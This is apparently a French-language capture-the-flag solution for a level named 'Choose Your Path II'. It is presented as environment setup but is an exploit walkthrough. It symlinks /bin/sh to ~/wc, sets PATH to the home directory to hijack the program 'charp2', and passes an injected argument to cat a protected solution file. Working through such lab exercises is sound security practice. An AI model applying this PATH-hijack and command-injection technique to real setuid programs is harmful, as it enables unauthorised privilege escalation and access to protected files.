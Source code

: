 # **Choose Your Path II**

## Configuration de l'environnement

Pour utiliser le programme `charp2`, suivez les étapes ci-dessous pour configurer votre environnement.

### 1. Créer un lien symbolique

Créez un lien symbolique vers `/bin/sh` en utilisant la commande suivante :

```bash
ln -s /bin/sh ~/wc
```

### 2. Rediriger la variable d'environnement

Redirigez la variable d'environnement par défaut vers votre répertoire personnel avec la commande :

```bash
PATH=~
```

## Exécution du programme

Pour obtenir la solution, exécutez la commande suivante dans `/home/level/11_choose_your_path2` :

```bash
./charp2 '/bin/cat/ solution.txt 1>&2'
```

La solution sera affichée une fois que la commande aura été exécutée avec succès. Assurez-vous d'avoir suivi les étapes de configuration de l'environnement avant d'exécuter le programme.